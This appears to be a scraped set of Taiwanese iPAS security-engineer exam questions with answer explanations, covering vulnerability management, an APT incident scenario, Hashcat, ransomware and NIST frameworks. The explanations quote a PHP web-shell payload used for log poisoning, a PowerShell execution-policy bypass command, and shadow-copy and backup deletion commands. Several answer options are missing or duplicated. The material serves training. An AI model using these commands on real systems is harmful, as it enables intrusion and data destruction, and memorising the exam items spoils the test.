iPAS 資訊安全工程師 中級 (114年第1次)
科目 I22: 資訊安全防護實務
評鑑內容 (點擊篩選)
1.1
弱點、威脅分類與攻擊手法
(11)
1.2
防護與應變實務
(14)
2.1
安全維運
(10)
2.2
滲透測試、源碼測試、資安健檢
(5)
#1
1.1 弱點/威脅/攻擊手法
目前有一個大企業, 員工超過 5000 人、系統超過 500 個, 想要定期對內部進行弱點掃描, 請問在實務考量下 (人力、資源、時間都有限), 下列觀念何者較為正確?
答案解析
弱點管理 (Vulnerability Management) 是資安維運的持續性過程，而非一次性任務。在實務上，資源有限，必須排定優先順序。
(A) 要求一天內修補所有弱點是不切實際的，且忽略了風險等級和修補可能帶來的營運衝擊。
(B) OWASP Top 10 列出的是常見的網頁應用程式風險類別，屬於此類別的弱點確實需要關注，但仍需評估其具體風險等級、影響範圍和可利用性，才能決定修補的優先級和方式，不能一概而論立即修補。
(C) 這描述了正確的弱點管理流程：評估風險（考慮弱點嚴重性、影響、可利用性、營運衝擊）-> 排定優先級 -> 規劃修補時程。這是實務上最可行且有效的方法。
(D) 即使官方沒有釋出patch（可能是零日弱點、廠商不再支援或尚未修補），維運人員仍需採取緩解措施（Mitigation）或補償性控制（Compensating Control），例如：加強監控、調整防火牆規則、限制存取、虛擬補丁 (Virtual Patching) 等，不能完全不做處置。
(A) 要求一天內修補所有弱點是不切實際的，且忽略了風險等級和修補可能帶來的營運衝擊。
(B) OWASP Top 10 列出的是常見的網頁應用程式風險類別，屬於此類別的弱點確實需要關注，但仍需評估其具體風險等級、影響範圍和可利用性，才能決定修補的優先級和方式，不能一概而論立即修補。
(C) 這描述了正確的弱點管理流程：評估風險（考慮弱點嚴重性、影響、可利用性、營運衝擊）-> 排定優先級 -> 規劃修補時程。這是實務上最可行且有效的方法。
(D) 即使官方沒有釋出patch（可能是零日弱點、廠商不再支援或尚未修補），維運人員仍需採取緩解措施（Mitigation）或補償性控制（Compensating Control），例如：加強監控、調整防火牆規則、限制存取、虛擬補丁 (Virtual Patching) 等，不能完全不做處置。
#2
1.1 弱點/威脅/攻擊手法
關於弱點攻擊的敘述, 下列何者正確? (複選)
答案解析
弱點分類：
(A) 描述了軟體/應用程式弱點的常見成因，例如程式碼邏輯錯誤、輸入驗證不當、配置錯誤等。正確。
(B) 描述了硬體/韌體層面的弱點，例如記憶體處理不當可能導致的問題 (類似 Rowhammer 或其他硬體相關攻擊)。正確。
(C) 零日弱點 (Zero-day Vulnerability) 指的是已被發現但廠商「尚未」提供修補程式的漏洞。攻擊者利用這種漏洞發動的攻擊稱為零日攻擊。選項描述的是已知但未修補的漏洞 (N-day Vulnerability)，而非零日弱點。錯誤。
(D) 描述了由於網路架構、設定或政策不當（如開放不必要端口、未使用加密）所造成的弱點。正確。
因此，正確的敘述是 (A)、(B)、(D)。
(A) 描述了軟體/應用程式弱點的常見成因，例如程式碼邏輯錯誤、輸入驗證不當、配置錯誤等。正確。
(B) 描述了硬體/韌體層面的弱點，例如記憶體處理不當可能導致的問題 (類似 Rowhammer 或其他硬體相關攻擊)。正確。
(C) 零日弱點 (Zero-day Vulnerability) 指的是已被發現但廠商「尚未」提供修補程式的漏洞。攻擊者利用這種漏洞發動的攻擊稱為零日攻擊。選項描述的是已知但未修補的漏洞 (N-day Vulnerability)，而非零日弱點。錯誤。
(D) 描述了由於網路架構、設定或政策不當（如開放不必要端口、未使用加密）所造成的弱點。正確。
因此，正確的敘述是 (A)、(B)、(D)。
#3
1.2 防護與應變實務
當企業遇到資安攻擊時, 可以思考各種不同的方式來進行防禦, 以便修補漏洞或暫時緩解。開發人員或資安維運人員必須選擇最合適的防禦機制來修補資安漏洞。下列何種防禦手法的「效果最差」, 很容易被攻擊者用其他方式繞過?
答案解析
評估各種防禦手法的效果：
(A) 輸入過濾和輸出編碼/轉義是防禦 XSS (跨站腳本攻擊) 的標準且有效的方法。
(B) 描述了針對檔案上傳漏洞的多層次防禦措施，包括內容檢查、副檔名限制、路徑控制、儲存隔離、執行權限限制等，是相對完善且有效的做法。
(C) 對於防禦 SQL注入 (SQL Injection)，參數過濾雖然有一定作用，但更推薦使用參數化查詢 (Parameterized Query) 或預處理語句 (Prepared Statement)，這是最有效且標準的方法。
(D) 僅在前端使用 JavaScript 進行過濾是非常不可靠的防禦方式。攻擊者可以輕易地繞過前端驗證（例如，直接發送 HTTP 請求，或禁用瀏覽器的 JavaScript），將惡意輸入提交到後端。對於防禦 Command Injection 這類伺服器端漏洞，必須在後端（伺服器端）進行嚴格的輸入驗證和過濾/轉義。因此，僅依賴前端 JavaScript 過濾效果最差，最容易被繞過。
(A) 輸入過濾和輸出編碼/轉義是防禦 XSS (跨站腳本攻擊) 的標準且有效的方法。
(B) 描述了針對檔案上傳漏洞的多層次防禦措施，包括內容檢查、副檔名限制、路徑控制、儲存隔離、執行權限限制等，是相對完善且有效的做法。
(C) 對於防禦 SQL注入 (SQL Injection)，參數過濾雖然有一定作用，但更推薦使用參數化查詢 (Parameterized Query) 或預處理語句 (Prepared Statement)，這是最有效且標準的方法。
(D) 僅在前端使用 JavaScript 進行過濾是非常不可靠的防禦方式。攻擊者可以輕易地繞過前端驗證（例如，直接發送 HTTP 請求，或禁用瀏覽器的 JavaScript），將惡意輸入提交到後端。對於防禦 Command Injection 這類伺服器端漏洞，必須在後端（伺服器端）進行嚴格的輸入驗證和過濾/轉義。因此，僅依賴前端 JavaScript 過濾效果最差，最容易被繞過。
#4
1.1 弱點/威脅/攻擊手法
關於知名密碼破解工具 Hashcat 的說明, 下列哪些描述正確? (複選)
答案解析
Hashcat 是一款強大的密碼恢復工具，支持多種雜湊演算法和攻擊模式。
(A) Hashcat 支持數百種不同的雜湊類型（如 MD5, SHA-1, NTLM, bcrypt 等），遠不止 10 種。正確。
(B) Mask Attack 使用掩碼定義密碼結構。
(C)
(D)
因此，正確的描述是 (A)、(C)、(D)。
(A) Hashcat 支持數百種不同的雜湊類型（如 MD5, SHA-1, NTLM, bcrypt 等），遠不止 10 種。正確。
(B) Mask Attack 使用掩碼定義密碼結構。
?u 代表大寫字母，?l 代表小寫字母，?d 代表數字。掩碼 ?u?l?d?d?d?d?d?d 表示密碼結構為 "大寫+小寫+6位數字"。範例 aB123456 (小寫+大寫+數字) 不符合這個掩碼定義。錯誤。(C)
-a 1 指定的是組合攻擊 (Combination Attack) 模式。它會將第一個字典檔中的每個詞與第二個字典檔中的每個詞進行組合，嘗試破解。正確。(D)
-a 0 指定的是字典攻擊 (Straight Attack) 模式。參數 -r 用於指定一個規則檔案 (Rule file)，Hashcat 會將字典檔中的詞根據規則檔案中的規則進行變換（如大小寫轉換、添加前後綴、替換字符等），生成候選密碼。在字典詞後面加上 "1234" 是典型的規則應用。正確。因此，正確的描述是 (A)、(C)、(D)。
#5
2.2 滲透測試/源碼測試/資安健檢
【題組1】情境如附圖所示(附圖為文字描述)。在進行例行性的檢查時, 你發現在 WEB 主機上, 出現了附圖一的 log 記錄, 這個 log 記錄中, 出現了登入錯誤的訊息, 但這個訊息恐怕不是登入錯誤而已, 這樣的 log 記錄內容, 你可能已經遭受到下列何種攻擊? (附圖摘要: 安全團隊發現網站伺服器異常，DB疑遭注入，AD有未知高權限帳號，疑有APT攻擊。)
附圖一 Log 內容:

附圖一 Log 內容:
root@kali-vk9:/var/log# tail -n 5 -f auth.log Jan 19 11:30:49 kali-vk9 sshd[3405]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.0.13 Jan 19 11:30:51 kali-vk9 sshd[3405]: Failed password for invalid user from 192.168.0.13 port 42962 ssh2 Jan 19 11:35:01 kali-vk9 CRON[3453]: pam_unix(cron:session): session opened for user root by (uid=0) Jan 19 11:35:01 kali-vk9 CRON[3453]: pam_unix(cron:session): session closed for user root Jan 19 11:37:34 kali-vk9 sshd[3464]: Invalid user vry4n from 192.168.0.13 port 43292 Jan 19 11:38:47 kali-vk9 sshd[3464]: Connection closed by invalid user vry4n 192.168.0.13 port 43292 [preauth] Jan 19 11:38:54 kali-vk9 sshd[3475]: Invalid user vk9sec from 192.168.0.13 port 43294 Jan 19 11:39:01 kali-vk9 CRON[3477]: pam_unix(cron:session): session opened for user root by (uid=0) Jan 19 11:39:01 kali-vk9 CRON[3477]: pam_unix(cron:session): session closed for user root
答案解析
分析 Log 內容：
這種攻擊手法通常被稱為 Log Injection 或 Log Poisoning。攻擊者的意圖是將惡意程式碼寫入日誌文件 (例如 auth.log)。如果網站存在本地檔案包含 (LFI) 漏洞，攻擊者可以引導網站去包含（執行）這個被污染的日誌文件。當日誌文件被 PHP 解析器執行時，注入的程式碼（
(A) Log 本身沒有直接顯示修改配置文件。
(B) Log 是 SSH 登錄日誌，而非資料庫日誌，與 SQL 注入無直接關係。
(C) 描述了利用 LFI 漏洞包含被注入惡意程式碼的日誌文件，以執行指令的攻擊鏈，這與觀察到的 Log 內容高度吻合。
(D) XSS 是客戶端攻擊，將惡意腳本注入到網頁中在使用者瀏覽器執行，與此伺服器端日誌記錄不符。且沒有所謂 "XSS Server Side" 攻擊。 因此，最可能的攻擊是 (C)。
Jan 19 11:30:51 kali-vk9 sshd[3405]: Failed password for invalid user from 192.168.0.13 port 42962 ssh2這行日誌顯示，有人嘗試使用一個看起來像 PHP 後門程式碼 (
<?php system($_GET[c]); ?>) 的字串作為用戶名來登錄 SSH。這本身是一個失敗的登錄嘗試。這種攻擊手法通常被稱為 Log Injection 或 Log Poisoning。攻擊者的意圖是將惡意程式碼寫入日誌文件 (例如 auth.log)。如果網站存在本地檔案包含 (LFI) 漏洞，攻擊者可以引導網站去包含（執行）這個被污染的日誌文件。當日誌文件被 PHP 解析器執行時，注入的程式碼（
system($_GET[c])）就會被觸發，允許攻擊者透過 GET 參數 'c' 傳遞任意系統指令給 system() 函數執行。(A) Log 本身沒有直接顯示修改配置文件。
(B) Log 是 SSH 登錄日誌，而非資料庫日誌，與 SQL 注入無直接關係。
(C) 描述了利用 LFI 漏洞包含被注入惡意程式碼的日誌文件，以執行指令的攻擊鏈，這與觀察到的 Log 內容高度吻合。
(D) XSS 是客戶端攻擊，將惡意腳本注入到網頁中在使用者瀏覽器執行，與此伺服器端日誌記錄不符。且沒有所謂 "XSS Server Side" 攻擊。 因此，最可能的攻擊是 (C)。
#6
1.1 弱點/威脅/攻擊手法
【題組1】情境如附圖所示。在你自覺到公司的網站伺服器可能入侵的同時, 你發現在資料庫伺服器的工作排程中出現了一個名為 windows update 的工作, 執行的內容如附圖二所示。請問對於 windows update 的工作內容描述, 下列何者正確?
附圖二 指令:

附圖二 指令:
powershell.exe -ExecutionPolicy bypass -command "&'.\svchost.ps1' -inputFile 'LSASS.ps1' -outputFile 'Winupdate.exe'"
答案解析
分析 Powershell 指令：
(A) 它執行
(B) 執行的內容與檔名都與惡意活動高度相關，不像是正常的 Windows 更新工作。
(C) 指令明確使用了
(D) 產生的
powershell.exe: 執行 Powershell。-ExecutionPolicy bypass: 忽略當前的執行策略限制，允許執行未簽署的腳本。這是惡意活動中常見的參數。-command "&'.\svchost.ps1' ...": 執行名為svchost.ps1的 Powershell 腳本（文件名偽裝成合法的系統進程svchost.exe）。-inputFile 'LSASS.ps1': 將LSASS.ps1作為輸入文件傳遞給svchost.ps1（文件名偽裝成合法的系統進程lsass.exe）。LSASS.ps1很可能包含惡意代碼，例如用於竊取記憶體中憑證的腳本 (Mimikatz 的 Powershell 版本)。-outputFile 'Winupdate.exe': 將svchost.ps1執行的結果（可能是經過處理或編譯的惡意代碼）輸出到名為Winupdate.exe的檔案中（文件名偽裝成 Windows 更新程序）。
svchost.ps1)，處理另一個惡意腳本 (LSASS.ps1)，並將其轉換或包裝成一個偽裝的執行檔 (Winupdate.exe)，同時繞過了系統的執行策略限制。這是一個典型的惡意軟體載入或持久化手法。(A) 它執行
svchost.ps1，以 LSASS.ps1 為輸入，輸出 Winupdate.exe，不是產出名為 LSASS 的腳本。(B) 執行的內容與檔名都與惡意活動高度相關，不像是正常的 Windows 更新工作。
(C) 指令明確使用了
-ExecutionPolicy bypass 來略過執行政策，並且最終產出了一個 .exe 執行檔，這可以看作是一種將腳本功能轉換或包裝成執行檔的過程。描述正確。(D) 產生的
Winupdate.exe 極可能是惡意程式，而非用於 Windows 更新。
因此，最正確的描述是 (C)。
#7
1.1 弱點/威脅/攻擊手法
【題組1】情境如附圖所示。當資安小組開始調查這個事件時, 在 AD 主機上發現了附圖三的內容。請問你遭受了什麼類型的攻擊? (附圖三顯示 Downloads 資料夾中有大量 .kirbi 檔案和 mimikatz.exe)

答案解析
附圖三顯示的關鍵線索：
(A) 阻斷服務攻擊旨在耗盡資源使服務不可用，與竊取票證無關。
(C) 緩衝區溢位是利用軟體漏洞執行任意代碼，雖然可能用於初始入侵，但附圖的內容更指向後續的憑證盜用。
(D) 目錄同步是 AD 的正常功能或特定攻擊（如 DCSync），雖然也與 AD 有關，但 PtT 更能直接解釋圖中大量票證檔案和 Mimikatz 的存在。
因此，最可能的攻擊類型是 (B) Pass the Ticket。
- 大量以
.kirbi為副檔名的檔案：這些是 Kerberos 協議中使用的票證 (Ticket) 文件。檔名看起來像是特定服務（如 cifs-DC1, ldap-dc1）和用戶（如 WEB1$, bob_adm）的票證。 mimikatz.exe：這是一個著名的後滲透工具，常用於從記憶體中提取 Windows 憑證（包括密碼、雜湊值和 Kerberos 票證）。
(A) 阻斷服務攻擊旨在耗盡資源使服務不可用，與竊取票證無關。
(C) 緩衝區溢位是利用軟體漏洞執行任意代碼，雖然可能用於初始入侵，但附圖的內容更指向後續的憑證盜用。
(D) 目錄同步是 AD 的正常功能或特定攻擊（如 DCSync），雖然也與 AD 有關，但 PtT 更能直接解釋圖中大量票證檔案和 Mimikatz 的存在。
因此，最可能的攻擊類型是 (B) Pass the Ticket。
#8
1.2 防護與應變實務
【題組1】情境如附圖所示。針對上述情境, 下列哪些措施可以有效降低類似攻擊再次發生的機率? (複選)

答案解析
整個題組描述了一個複雜的 APT 攻擊場景，涉及網頁漏洞 (LFI)、日誌注入、惡意腳本執行、以及在 AD 環境中的憑證竊取 (PtT)。降低此類攻擊風險需要多層次的防護措施：
(A) 雖然資料庫可能也遭受攻擊（情境提示），但攻擊鏈的核心在於 Web 漏洞、腳本執行和 AD 憑證竊取。單純加強資料庫稽核無法有效阻止利用 Web 漏洞或 AD 憑證的攻擊路徑。
(B) 安全意識培訓有助於防範社交工程、釣魚等初始入侵手法，雖然本題組未明確初始入口，但培訓總體上有助於提升組織安全。
(C) 持續監控網路流量、端點活動、AD 日誌（如 Kerberos 票證請求、可疑登錄）等，有助於及早偵測到異常行為，如惡意腳本執行、Mimikatz 活動、異常票證使用等。
(D) 實施強身份驗證（如 MFA）、最小權限原則、特權帳號管理 (PAM)、網路分段等，可以增加攻擊者橫向移動、提升權限和竊取憑證的難度，是防禦 PtT 等攻擊的關鍵措施。
因此，(B)、(C)、(D) 都是降低此類攻擊風險的有效措施。
(A) 雖然資料庫可能也遭受攻擊（情境提示），但攻擊鏈的核心在於 Web 漏洞、腳本執行和 AD 憑證竊取。單純加強資料庫稽核無法有效阻止利用 Web 漏洞或 AD 憑證的攻擊路徑。
(B) 安全意識培訓有助於防範社交工程、釣魚等初始入侵手法，雖然本題組未明確初始入口，但培訓總體上有助於提升組織安全。
(C) 持續監控網路流量、端點活動、AD 日誌（如 Kerberos 票證請求、可疑登錄）等，有助於及早偵測到異常行為，如惡意腳本執行、Mimikatz 活動、異常票證使用等。
(D) 實施強身份驗證（如 MFA）、最小權限原則、特權帳號管理 (PAM)、網路分段等，可以增加攻擊者橫向移動、提升權限和竊取憑證的難度，是防禦 PtT 等攻擊的關鍵措施。
因此，(B)、(C)、(D) 都是降低此類攻擊風險的有效措施。
#9
1.1 弱點/威脅/攻擊手法
勒索軟體與資料外洩攻擊之準備、預防、緩解與應變之實務上, 可透過分析系統執行特定指令來進行威脅獵捕 (Threat hunting), 以即早偵測並發現異常行為。下列何種 Windows 指令「非」勒索軟體常用於竄改系統檔案/備份之目的?
答案解析
勒索軟體為了阻止受害者恢復檔案，常常會嘗試刪除或破壞系統的備份機制，特別是磁碟區陰影複製服務 (Volume Shadow Copy Service, VSS)。
(A)
(C)
(D)
(B)
(A)
fsutil.exe: 是檔案系統公用程式，可以用來管理檔案系統、磁碟區等，攻擊者可能利用其某些功能（如 fsutil usn deletejournal 刪除 USN 日誌）來隱藏蹤跡或干擾恢復。(C)
vssadmin.exe: 是磁碟區陰影複製服務的管理工具。勒索軟體經常使用 vssadmin delete shadows /all /quiet 指令來刪除所有陰影複製，使受害者無法透過 VSS 恢復檔案。(D)
wbadmin.exe: 是 Windows Server Backup 的命令列工具。勒索軟體也可能嘗試使用 wbadmin delete catalog 來刪除備份目錄，阻止透過系統備份進行恢復。(B)
ntfsbackup.exe: 並非標準的 Windows 內建指令或常見的備份工具。Windows 內建的舊版備份工具是 ntbackup.exe（已棄用）。因此，ntfsbackup.exe 不是勒索軟體常用來竄改備份的指令。
#10
1.2 防護與應變實務
據 NIST SP 800 系列標準, 關於災難復原計畫 (Disaster Recovery Plan, DRP)、業務持續性計畫 (Business Continuity Plan, BCP) 和資訊系統應急準備計畫 (Information System Contingency Plan, ISCP) 的關聯性, 下列何項描述正確?
答案解析
根據 NIST 的定義和普遍理解：
(B) 錯誤。ISCP 不涵蓋整個組織業務，BCP 才關注整體業務。
(C) 錯誤。BCP 關注整體業務，DRP 關注 IT 系統。
(D) 這個描述最準確地反映了三者之間的關係和各自的重點：DRP (IT恢復)，BCP (整體業務持續)，ISCP (特定系統應急)。正確。
- 業務持續性計畫 (BCP): 是一個總體性計畫，目標是確保組織在面臨各種中斷事件（不限於 IT 災難）時，其關鍵業務功能能夠持續運作或盡快恢復。它涵蓋了業務流程、人員、設施、供應鏈等多方面。
- 災難復原計畫 (DRP): 通常被視為 BCP 的一個子集，專注於 IT 基礎設施和系統在發生災難性事件（如火災、洪水、大規模攻擊）後的恢復。
- 資訊系統應急準備計畫 (ISCP): 專注於針對特定資訊系統中斷事件的應急反應、恢復和恢復後操作。它可以看作是針對單一系統或一組相關系統的更具體的恢復計畫，也是 BCP 的一部分。
(B) 錯誤。ISCP 不涵蓋整個組織業務，BCP 才關注整體業務。
(C) 錯誤。BCP 關注整體業務，DRP 關注 IT 系統。
(D) 這個描述最準確地反映了三者之間的關係和各自的重點：DRP (IT恢復)，BCP (整體業務持續)，ISCP (特定系統應急)。正確。
#11
1.2 防護與應變實務
在零信任 (Zero Trust) 安全架構下, 考慮到網路微分段 (Network Micro-Segmentation) 的實施, 下列何項描述最準確地闡述了它與其他零信任安全控制措施 (如身份和存取管理、加密和持續監控) 的交互作用?
答案解析
零信任是一個整合性的安全模型，各個控制措施之間需要協同工作。
(A) 微分割並非獨立運作。它的效果依賴於準確的身份驗證和授權來決定哪些流量可以通過分段邊界。錯誤。
(B) 微 segmentation 本身只是劃分了網路區域，必須結合身份和存取管理策略才能判斷誰可以訪問哪個區域。僅靠分段無法防禦所有入侵。錯誤。
(C) 這準確描述了零信任的協同作用。微分割提供了執行點，而身份和存取管理提供了決策依據。加密保護了通過分段的流量的機密性，而持續監控則用於檢測異常活動和驗證策略的有效性，它們共同構成了多層次的防禦。正確。
(D) 持續監控對於微分割至關重要。需要監控分段邊界的流量、驗證策略執行情況、檢測潛在的繞過或內部威脅。錯誤。
因此，最準確的描述是 (C)。
(A) 微分割並非獨立運作。它的效果依賴於準確的身份驗證和授權來決定哪些流量可以通過分段邊界。錯誤。
(B) 微 segmentation 本身只是劃分了網路區域，必須結合身份和存取管理策略才能判斷誰可以訪問哪個區域。僅靠分段無法防禦所有入侵。錯誤。
(C) 這準確描述了零信任的協同作用。微分割提供了執行點，而身份和存取管理提供了決策依據。加密保護了通過分段的流量的機密性，而持續監控則用於檢測異常活動和驗證策略的有效性，它們共同構成了多層次的防禦。正確。
(D) 持續監控對於微分割至關重要。需要監控分段邊界的流量、驗證策略執行情況、檢測潛在的繞過或內部威脅。錯誤。
因此，最準確的描述是 (C)。
#12
1.2 防護與應變實務
在規劃企業資安的縱深防禦過程中, 需要使用各種不同的技術與產品來應對不同情境的資安議題, 下列哪一種技術最適合用來避免「內部資料被未經授權地傳輸到外部」的情況?
答案解析
分析各技術的主要功能：
(A) NDR 主要用於偵測網路中的惡意活動、異常行為和威脅，並提供回應能力，但其核心在於威脅偵測。
(B) CDN 用於快取內容，加速網站訪問速度並分擔源站負載，與防止資料外洩無關。
(C) IDS 用於偵測已知的攻擊特徵或異常網路流量，發出警報，但通常不直接阻止資料傳輸。
(D) DLP 技術的核心目的就是識別、監控和保護敏感資料，防止其未經授權地離開組織邊界。它可以設定政策來偵測和阻止包含敏感關鍵字、特定格式（如身分證號）或符合特定規則的資料向外傳輸。
因此，最適合用來避免內部資料未經授權傳輸到外部的技術是 (D) DLP。
(A) NDR 主要用於偵測網路中的惡意活動、異常行為和威脅，並提供回應能力，但其核心在於威脅偵測。
(B) CDN 用於快取內容，加速網站訪問速度並分擔源站負載，與防止資料外洩無關。
(C) IDS 用於偵測已知的攻擊特徵或異常網路流量，發出警報，但通常不直接阻止資料傳輸。
(D) DLP 技術的核心目的就是識別、監控和保護敏感資料，防止其未經授權地離開組織邊界。它可以設定政策來偵測和阻止包含敏感關鍵字、特定格式（如身分證號）或符合特定規則的資料向外傳輸。
因此，最適合用來避免內部資料未經授權傳輸到外部的技術是 (D) DLP。
#13
1.1 弱點/威脅/攻擊手法
有關「網頁應用程式防火牆( Web Application Firewall, WAF)」的描述, 下列何者較為適切?
答案解析
WAF 是部署在網頁伺服器前端，用於監控、過濾和阻擋進出網頁應用程式的 HTTP 流量，旨在防禦常見的網頁攻擊。
(A) 過濾垃圾郵件是郵件安全閘道器 (Email Security Gateway) 的功能，不是 WAF 的主要用途。錯誤。
(B) WAF 主要依賴規則集（基於簽章、行為或信譽等）來識別惡意流量。攻擊者不斷研究新的繞過技術（WAF Bypass），因此 WAF 無法保證 100% 阻擋所有攻擊，其規則確實有被繞過的可能。這是適切的描述。
(C) WAF 不僅能防禦注入攻擊，也能防禦其他 OWASP Top 10 中的風險，如失效的存取控制、跨站腳本攻擊 (XSS)、安全設定錯誤等，只要有相應的規則。錯誤。
(D) 現代 WAF 不僅依賴精確的特徵碼比對，也使用啟發式分析、正則表達式、機器學習等技術來識別變種或未知的攻擊模式。雖然仍可能被繞過，但並非只能阻擋特徵完全一樣的攻擊。錯誤。
因此，最適切的描述是 (B)。
(A) 過濾垃圾郵件是郵件安全閘道器 (Email Security Gateway) 的功能，不是 WAF 的主要用途。錯誤。
(B) WAF 主要依賴規則集（基於簽章、行為或信譽等）來識別惡意流量。攻擊者不斷研究新的繞過技術（WAF Bypass），因此 WAF 無法保證 100% 阻擋所有攻擊，其規則確實有被繞過的可能。這是適切的描述。
(C) WAF 不僅能防禦注入攻擊，也能防禦其他 OWASP Top 10 中的風險，如失效的存取控制、跨站腳本攻擊 (XSS)、安全設定錯誤等，只要有相應的規則。錯誤。
(D) 現代 WAF 不僅依賴精確的特徵碼比對，也使用啟發式分析、正則表達式、機器學習等技術來識別變種或未知的攻擊模式。雖然仍可能被繞過，但並非只能阻擋特徵完全一樣的攻擊。錯誤。
因此，最適切的描述是 (B)。
#14
1.2 防護與應變實務
下列何項是美國國家標準技術研究院 (NIST) 的網路安全框架 (Cyber Security Framework, CSF) 從版本 1.1 更新到 2.0 中最明顯的改變?
答案解析
NIST CSF 從 1.1 版到 2.0 版的主要改變包括：
(B) 引入「治理 (Govern)」作為第六個核心功能，是 2.0 版最核心、最明顯的結構性改變。正確。
(C) 雖然 2.0 版致力於提升易用性，但「簡化所有類別定義」並非最主要或最明顯的改變，且治理功能的加入實際上增加了複雜性。改變的重點在於結構調整和內容擴充。
(D) 2.0 版確實在某些領域（如供應鏈）提供了更具體的指導，但新增「治理」功能是框架層面最顯著的變化。
因此，最明顯的改變是 (B)。
- 新增核心功能: 最顯著的改變是增加了第六個核心功能「治理 (Govern)」，強調組織層面的策略、風險管理和監督。
- 擴大適用範圍: 明確指出框架不僅適用於關鍵基礎設施，也適用於所有規模和類型的組織。
- 強化供應鏈風險管理: 對於供應鏈網路安全風險管理 (C-SCRM) 提供了更詳細的指導。
- 改進與澄清: 對現有內容進行了更新和澄清，提升了易用性和可操作性。
(B) 引入「治理 (Govern)」作為第六個核心功能，是 2.0 版最核心、最明顯的結構性改變。正確。
(C) 雖然 2.0 版致力於提升易用性，但「簡化所有類別定義」並非最主要或最明顯的改變，且治理功能的加入實際上增加了複雜性。改變的重點在於結構調整和內容擴充。
(D) 2.0 版確實在某些領域（如供應鏈）提供了更具體的指導，但新增「治理」功能是框架層面最顯著的變化。
因此，最明顯的改變是 (B)。
#15
1.2 防護與應變實務
在使用 NIST SP 800-207 零信任架構 (Zero Trust Architecture) 中的進階身份治理 (Enhanced Identity Governance) 模式時, 請問下列哪些要素會影響最終信任評等 (Trust Score) 的結果計算? (複選)
答案解析
NIST SP 800-207 中的零信任決策引擎（Policy Engine / Policy Administrator）在進行存取決策時，會綜合考量多種因素來計算一個信任分數或信心水準。這些因素通常包括：
因此，影響信任評等的要素包括 (A) 資產狀態、(C) 資源內容/屬性、(D) 環境因素。
- 身份資訊: 使用者身份、角色、群組等。
- 端點/資產狀態: 設備的健康狀況、是否合規（例如，作業系統版本、安全軟體狀態、是否存在已知漏洞）。(選項 A)
- 資源屬性: 被請求訪問的資源的敏感性、重要性。(選項 C，資源內容或屬性)
- 環境因素: 如網路位置、時間、地理位置、威脅情資等。(選項 D)
- 行為分析: 使用者或設備的歷史行為模式是否異常。
因此，影響信任評等的要素包括 (A) 資產狀態、(C) 資源內容/屬性、(D) 環境因素。
#16
2.1 安全維運
安全性資訊與事件管理 (Security Information and Event Management, SIEM) 是蒐集、分析、關聯日誌, 並且提供即時的警報與威脅檢測, 可針對事件回溯與調查, 當我們設定要將一台 Windows Server 2019 的安全性事件, 拋送到回到 SIEM 進行分析, 可以透過下列哪些通訊協定無需額外的透過 cmd 指令串接、設定、組態即可傳送? (複選)
答案解析
將 Windows 事件日誌傳送到 SIEM 的常見方法：
(A) Syslog: 雖然 Windows 本身不原生支援 Syslog 傳送事件，但可以透過安裝第三方代理程式（Agent）或轉發器將 Windows 事件轉換為 Syslog 格式發送到 SIEM。某些代理程式可以做到無需額外 cmd 設定。
(B) SNMP: 主要用於網路設備監控和管理，可以發送 SNMP Trap（陷阱）來報告特定事件，但通常不適合用來傳輸詳細的、大量的安全性事件日誌。
(C) Agent-Based: 在 Windows Server 上安裝由 SIEM 廠商提供的代理程式 (Agent)。這個代理程式會直接讀取本地事件日誌，並透過加密或特定協定將其傳送給 SIEM。通常安裝和基本配置後即可運作，無需複雜的 cmd 操作。
